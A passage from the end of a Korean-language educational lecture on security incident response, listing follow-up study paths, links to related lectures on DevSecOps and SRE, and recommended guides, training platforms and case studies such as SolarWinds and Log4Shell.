│    → Error Budget, SLO가 사고 대응과 연결     │
│    → ../10-sre/01-principles.md              │
└─────────────────────────────────────────────┘
    ↓
    더 깊이 배우기
    ├── NIST SP 800-61 (IR 가이드) 원문 읽기
    ├── AWS Security Specialty 자격증 도전
    ├── SANS GCIH (GIAC Certified Incident Handler)
    └── 실전 CTF(Capture The Flag) 참가
```

### 복습 연결 고리

```
이전 강의와의 연결:

[DevSecOps](./06-devsecops)
  └→ "예방했음에도 사고가 발생하면?" → 이번 강의 (Incident Response)

[알림 시스템](../08-observability/11-alerting)
  └→ "알림을 받은 후 어떻게 대응하나?" → 이번 강의 (War Room, Playbook)

이번 강의의 핵심이 다음 강의로:

[SRE 원칙](../10-sre/01-principles)
  └→ Post-Mortem 문화가 SRE의 핵심 문화
  └→ MTTD/MTTR이 SLO/Error Budget과 직결
  └→ "사고에서 배우는 조직"이 SRE의 철학
```

### 추천 리소스

```
📚 필독 자료:
• NIST SP 800-61 Rev.2 — Computer Security Incident Handling Guide
• AWS Security Incident Response Guide (공식 문서)
• Google SRE Book — Chapter 14: Managing Incidents
• PagerDuty Incident Response Guide (무료 온라인)

🛠️ 실습 환경:
• AWS Incident Response 워크샵 (workshop.aws)
• SANS Cyber Ranges
• Hack The Box / TryHackMe (포렌식 챌린지)

📺 사례 분석:
• SolarWinds: CISA의 공식 분석 보고서
• Log4Shell: Apache 공식 보안 권고
• xz Utils: Andres Freund의 원본 분석 포스트
```

---

> **한 줄 요약**: 보안 사고는 "만약"이 아니라 "언제"의 문제예요. 준비된 팀은 사고에서 배우고 더 강해지고, 준비되지 않은 팀은 같은 실수를 반복해요. 오늘 IR Plan을 만들기 시작하세요. 사고가 터진 뒤에는 늦어요.
